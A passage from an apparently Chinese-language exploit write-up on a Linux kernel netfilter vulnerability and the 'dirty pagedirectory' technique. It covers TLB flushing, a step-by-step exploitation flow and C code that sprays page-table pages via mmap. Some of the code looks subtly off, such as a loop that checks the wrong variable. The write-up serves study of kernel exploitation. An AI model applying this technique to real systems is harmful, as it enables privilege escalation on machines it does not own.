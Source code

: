 TLB 刷新
------

[TLB](elink@eefK9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6W2L8W2)9J5k6i4N6A6K9$3W2H3k6h3c8A6j5g2)9J5k6h3!0J5k6#2)9J5c8Y4N6A6K9$3W2Q4x3V1k6f1M7X3q4F1M7$3I4S2N6r3W2G2L8W2)9#2k6X3I4G2L8$3E0S2M7$3W2V1k6g2)9#2k6X3u0#2k6X3k6W2M7R3`.`.) 用来缓存虚拟地址到物理地址的映射，从而可以使得加快页表访存,  
所以在 dirty pagedirectory 的工作下我们需要清空 TLB 来保证该技术的稳定性, 而这一步骤也可以被称为刷新 TLB

这里该作者提出的刷新方法是在堆喷 PMD 和 PTE 的时候，可以将他们标记为共享页面，然后通过创建子进程，然后该子进程调用`munmap()`刷新内存 TLB, 从而导致父进程的 TLB 也会进行刷新，该操作在需要我们不断修改页表的环境下是极其重要的  
最后让子进程进入睡眠

漏洞利用流程
======

接下来讲解具体流程:

1.  创建用户和网络命名空间，在其中可以让我们执行特权操作
2.  做环境准备，例如绑定 cpu 核等
3.  启动环回网卡, 然后禁用 rpf(反向路径转发), 因为后续需要使用特制 ip 头
4.  构造 netfilter hook, 这里 hook 点为`NF_INET_PRE_ROUTING`, 具体原因可以参考基础知识环节
5.  预分配 PUD，PMD,PTE，socket 等结构体，来减少后续漏洞利用噪音的产生，这里虚拟地址的计算通过几个巧妙的宏来实现

```
#define _pte_index_to_virt(i) (i << 12)
#define _pmd_index_to_virt(i) (i << 21)
#define _pud_index_to_virt(i) (i << 30)
#define _pgd_index_to_virt(i) (i << 39)
#define INDEX_TO_VIRT(pud_index, pmd_index, pte_index, page_index, byte_index) \
    ((void*)(_pgd_index_to_virt((size_t)(pud_index)) + _pud_index_to_virt((size_t)(pmd_index)) + \
    _pmd_index_to_virt((size_t)(pte_index)) + _pte_index_to_virt((size_t)(page_index)) + (size_t)(byte_index)))
...
 
    void *addr = mmap((void *)INDEX_TO_VIRT(1, 0, 0, 0, 0), 0x2000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (addr == MAP_FAILED) {
          perror("mmap failed"); // perror 会打印出具体的错误原因
          exit(EXIT_FAILURE);
    }
    // page fault: allocate PUD PMD PTE page
    *(size_t *)INDEX_TO_VIRT(1, 0, 0, 0, 0) = (size_t)0xDEADBEEF;
 
    // pre allocation: only create the vma (mostly PTE page, and some PMD page)
    for(size_t i = 0; i < CONFIG_PTE_SPRAY_AMOUNT; i++){
        void *retv = mmap((void *)INDEX_TO_VIRT(2, 0, i, 0, 0), 0x2000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (addr == MAP_FAILED) {
            perror("mmap failed"); // perror 会打印出具体的错误原因
            exit(EXIT_FAILURE);
        }
    }
     
    // occur page fault
    for(size_t i = 0; i < CONFIG_PTE_SPRAY_AMOUNT/CONFIG_PAGE_ENTRY_NUM; i++){
        *(char *)INDEX_TO_VIRT(2, i, 0, 0, 0) = '0x41';
    }
```
